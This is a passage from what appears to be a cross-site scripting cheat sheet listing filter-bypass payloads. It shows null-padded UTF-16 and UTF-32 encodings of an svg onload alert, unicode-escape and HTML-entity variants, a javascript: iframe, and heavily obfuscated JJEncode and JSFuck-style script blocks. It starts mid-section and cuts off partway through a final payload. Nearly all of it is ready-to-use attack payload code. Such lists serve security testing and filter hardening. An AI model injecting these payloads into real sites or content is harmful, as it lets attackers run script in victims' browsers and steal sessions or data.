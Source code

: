 ```javascript
%00%3C%00s%00v%00g%00/%00o%00n%00l%00o%00a%00d%00=%00a%00l%00e%00r%00t%00(%00)%00%3E%00
\x00<\x00s\x00v\x00g\x00/\x00o\x00n\x00l\x00o\x00a\x00d\x00=\x00a\x00l\x00e\x00r\x00t\x00(\x00)\x00>
```

### Bypass using UTF-32

```js
%00%00%00%00%00%3C%00%00%00s%00%00%00v%00%00%00g%00%00%00/%00%00%00o%00%00%00n%00%00%00l%00%00%00o%00%00%00a%00%00%00d%00%00%00=%00%00%00a%00%00%00l%00%00%00e%00%00%00r%00%00%00t%00%00%00(%00%00%00)%00%00%00%3E
```

### Bypass using weird encoding or native interpretation

```javascript
<script>\u0061\u006C\u0065\u0072\u0074(1)</script>

<img src="1" onerror="&#x61;&#x6c;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;" />
	
<iframe src="javascript:%61%6c%65%72%74%28%31%29"></iframe>

<script>$=~[];$={___:++$,$$$$:(![]+"")[$],__$:++$,$_$_:(![]+"")[$],_$_:++$,$_$$:({}+"")[$],$$_$:($[$]+"")[$],_$$:++$,$$$_:(!""+"")[$],$__:++$,$_$:++$,$$__:({}+"")[$],$$_:++$,$$$:++$,$___:++$,$__$:++$};$.$_=($.$_=$+"")[$.$_$]+($._$=$.$_[$.__$])+($.$$=($.$+"")[$.__$])+((!$)+"")[$._$$]+($.__=$.$_[$.$$_])+($.$=(!""+"")[$.__$])+($._=(!""+"")[$._$_])+$.$_[$.$_$]+$.__+$._$+$.$;$.$$=$.$+(!""+"")[$._$$]+$.__+$._+$.$+$.$$;$.$=($.___)[$.$_][$.$_];$.$($.$($.$$+"\""+$.$_$_+(![]+"")[$._$_]+$.$$$_+"\\"+$.__$+$.$$_+$._$_+$.__+"("+$.___+")"+"\"")())();</script>

<script>(+[])[([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!+[]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!+[]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]][([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!+[]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!+[]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]((![]+[])[+!+[]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]+(!![]+[])[+[]]+([][([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!+[]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!+[]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]+[])[[+!+[]]+[!+[]+!+[]+!+[]+!+[]]]+[+[]]+([][([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!+[]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!+[]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]+[])[[+!+[]]+[!+[]+!+[]+!+[]+!+[]+!+[]]])()</script>

<script>क='',ख=!क+क,ग=!ख+क,घ=क+{},ङ=ख
[क++],च=ख[छ=क],ज=++छ+क,झ=घ[छ+ज
],ख[झ+=घ[क]+(ख.ग+घ)[क]+ग[ज]+ङ+
```